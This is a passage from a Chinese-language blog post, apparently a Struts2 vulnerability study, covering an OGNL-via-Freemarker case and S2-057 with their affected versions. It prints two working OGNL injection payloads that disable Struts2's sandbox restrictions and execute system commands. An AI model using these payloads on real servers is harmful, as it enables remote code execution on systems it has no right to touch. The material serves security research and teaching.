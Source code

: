 或者：

```html
<@s.hidden name="redirectUri"value="${redirectUri}"/>
```

那么此时，用户输入会先被 Freemarker 解析，随后被当作 OGNL 表达式解析，造成代码执行。

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

注意最后必须添加换行符（`\x0a`）。

![图 11](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/11.png)

## s2-057

[参考](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg)

影响版本：2.3 - 2.3.34， 2.5 - 2.5.16

如果 `alwaysSelectFullNamespace` 设置为 `true` 且 `action` 中未设置 `namespace` 或直接使用 `*` ，那么此时的 `namespace` 由用户控制，并作为 OGNL 表达式解析。

```java
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

![图 12](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/12.png)
